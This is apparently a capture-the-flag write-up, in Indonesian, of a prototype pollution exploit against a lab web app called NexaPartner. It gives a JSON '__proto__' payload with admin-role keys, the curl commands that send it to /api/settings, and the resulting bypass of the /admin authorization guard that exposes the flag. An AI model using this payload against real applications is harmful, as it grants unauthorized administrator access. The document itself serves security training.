

# NexaPartner — Analisis

[← Overview](12-nexapartner.md) · [Index](index.md)

## 2.2 Prototype pollution

Payload:

```json
{
  "__proto__": {
    "role": "admin",
    "isAdmin": true,
    "admin": true,
    "tier": "platinum"
  }
}
```

Dikirim ke `POST /api/settings`:

```bash
curl -sS -i -b cookies.txt \
  -H 'Content-Type: application/json' \
  -d '{"__proto__":{"role":"admin","isAdmin":true,"admin":true,"tier":"platinum"}}' \
  "$BASE/api/settings"
```

Respons tetap `200` dan hanya menampilkan settings yang sudah ada; key `__proto__` tidak muncul di JSON output. Efeknya terlihat pada otorisasi:

```bash
curl -sS -i -b cookies.txt "$BASE/admin"
```

Sebelum pollution:

```text
HTTP/1.1 403 Forbidden
```

Setelah pollution:

```text
HTTP/1.1 302 Found
Location: /admin/audit
```

Artinya pengecekan admin membaca properti yang sekarang ada di rantai prototipe (`role`/`isAdmin`/`admin`/`tier`). Guard menjadi true untuk partner biasa.

Catatan: kami mengirim empat key sekaligus untuk memastikan predikat otorisasi mana pun yang dipakai (`role === 'admin'`, `isAdmin`, `admin`, atau `tier`) terpenuhi. Instans yang sama tidak dapat di-reset untuk mengisolasi satu key (restart kena cooldown 900 detik), jadi kami tidak mengklaim key mana yang paling minimal. Nama flag (`js0n_pr0t0_p0llut10n_4dm1n_byp4ss`) dan perilaku `/admin` sudah cukup membuktikan mekanismenya.

## 2.3 Halaman audit admin

`/admin/audit` menampilkan:

```text
Admin audit
Restricted audit trail for partner settlements, API key reviews, and recovery records.
Administrator
...
admin   Partner recovery token rotated
        Temporary partner console recovery token: NFX{js0n_pr0t0_p0llut10n_4dm1n_byp4ss}
...
Recovery token
NFX{js0n_pr0t0_p0llut10n_4dm1n_byp4ss}
```

Flag ada di dua tempat: tabel audit dan kartu “Recovery token”.

## 2.4 Rantai penuh

```text
login demo partner
  -> POST /api/settings dengan JSON __proto__
  -> Object.prototype / settings prototype tercemar
  -> guard /admin membaca properti warisan → true
  -> GET /admin → 302 /admin/audit
  -> flag di recovery token
```

### Evidence langkah ini



*Terminal evidence — `02-authed-crawl.txt` (arsip transkrip sesi solve).*


*Terminal evidence — `03-exploit-evidence.txt` (arsip transkrip sesi solve).*

**Berkas mentah langkah ini:**

- [`02-authed-crawl.txt`](assets/nexapartner/02-authed-crawl.txt)
- [`03-exploit-evidence.txt`](assets/nexapartner/03-exploit-evidence.txt)
